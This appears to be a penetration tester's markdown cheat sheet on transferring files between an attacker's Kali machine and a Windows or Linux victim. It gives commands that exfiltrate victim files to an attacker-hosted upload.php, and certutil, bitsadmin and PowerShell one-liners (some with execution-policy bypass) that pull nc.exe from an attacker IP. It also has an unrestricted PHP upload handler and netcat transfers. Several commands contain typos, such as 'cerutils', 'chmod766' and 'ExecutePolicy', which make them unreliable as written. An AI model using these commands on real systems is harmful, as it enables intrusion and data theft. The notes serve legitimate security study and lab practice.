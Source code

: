 # File transfer

## Http

### Download

source: https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

#### Python

```
python -m http.server 8080
```

#### Apache

```
mv somefile /var/www/html
systemctl start apache2
```

### Upload

sources: 
- https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9
- https://davidhamann.de/2019/04/12/powershell-invoke-webrequest-by-example/
- https://stackoverflow.com/questions/22491129/how-to-send-multipart-form-data-with-powershell-invoke-restmethod

#### Php on Kali

Make a `upload.php` file in `/var/www/html/`:
```
vim /var/www/html/upload.php
```
as
```
<?php
  $target_dir = "uploads/";
  $target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
  move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>
```
then make a `upload.html` file in `/var/www/html/`:
```
vim /var/www/html/upload.html
```
as
```
<html>
<head></head>
    <body>
        <form action="upload.php" method="POST" enctype="multipart/form-data">
            <br><br>
            Choose a file:<br>
            <input type="file" name="targetfile"/><br>
            <input type="submit" name="submit" value="upload"/>
        </form>
    </body>
</html>
```
then make the `uploads` directory with write rights:
```
mkdir /var/www/html/uploads
chown www-data.www-data /var/www/html/uploads
chmod766 /var/www/html/uploads
```
and start the `apache2` service:
```
systemctl start apache2
```

#### On Windows

```
powershell -nop -exec bypass Invoke-RestMethod -Uri http://IpAtt/upload.php -Method Post -Infile 'c:\path\to\file.txt'
```
or
```
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\path\to\file.txt" -X Post -v http://IpAtt/upload.php
```
or
```
$fieldName = 'targetfile' # name of the field in upload.php
$filePath = 'C:\full\path\to\file.txt' # full path...
$url = 'http://AttackerIpAddress/upload.php'

Add-Type -AssemblyName 'System.Net.Http'

$client = New-Object System.Net.Http.HttpClient
$content = New-Object System.Net.Http.MultipartFormDataContent
$fileStream = [System.IO.File]::OpenRead($filePath)
$fileName = [System.IO.Path]::GetFileName($filePath)
$fileContent = New-Object System.Net.Http.StreamContent($fileStream)
$content.Add($fileContent, $fieldName, $fileName)
$result = $client.PostAsync($url, $content).Result
```

#### Http on another Apache2 server

```
vim upload.html

<html>
  <head></head>
  <body>
    <form action="http://IpAtt/upload.php" method="POST" enctype="multipart/form-data">
      <br><br>
      Choose a file: <br>
      <input type="file" name="targetfile"><br>
      <input type="sumbit" name="submit" value="upload">
    </form>
  </body>
</html>
```
To upload on a browser at `http://AttackerIpAddress/upload.html`

## Other Linux tools

### Netcat `nc`

```
listener$ nc -lnvp 4444 > received.txt
sender$ nc $ListenerIp 4444 tosend.txt
```

### FTP

On the client:
```
ftp_client$ ftp $FtpServerIp
    Name: anonymous
    Password: 
    230 Login successful.
    ftp> 
```
FTP commands:
- `ls`
- `get somefile.txt`
- `put someotherfile.txt`
- `quit`
- `ascii`
- `binari`: https://knowledge.broadcom.com/external/article/28212/ftp-ascii-vs-binary-mode-what-it-means.html


## LolBas

Connection with `xfreerdp`:
```
xfreerdp +clipboard /u:myuser /p:mypass /v:VictimIP
```

### Cmd shell

#### Certutil

Simpler:
```
cerutils -urlcache -split -f http://AttackerApacheIP/nc.exe nc.exe
```

#### Bitsadmin

Longer:
```
bitsadmin /create MyDownload
bitsadmin /addfile MyDownload http://AttackerIP/nc.exe C:\Users\myuser\Downloads\nc.exe
bitsadmin /resume MyDownload
bitsadmin /info MyDownload /verbose
bitsadmin /complete MyDownload
```

### Powershell

#### WebClient API

Download script: `PS> type .\mywgetscript.ps1`
```
$webclient = New-Object System.Net.WebClient
$url = "http://$AttackerIP/nc.exe"
$file = "nc.exe"
$webclient.DownloadFile($url,$file)
```
and run it:
```
PS> powershell.exe -ExecutePolicy Bypass -Nologo -NonInteractive -NoProfile -File .\mywgetscript.ps1
```
or as a one-liner:
```
PS> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$AttackerIp/nc.exe', 'nc.exe')
```

#### WebRequest API

Native request:
```
PS> Invoke-WebRequest -URI http://$AttackerIP/nc.exe -OutFile nc.exe
```
or with the alias `wget`:
```
PS> wget http://$AttackerIp/nc.exe -o nc.exe
```

#### Uploads to Kali

On Kali, at `/var/www/html/uploadForWindows.php`:
```
<?php 
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```
and in Powershell:
```
PS> powershell (New-Object System.Net.WebClient).UploadFile('http://$AttackerIp/uploadForWindows.php', 'localfileonwindows.txt')
```


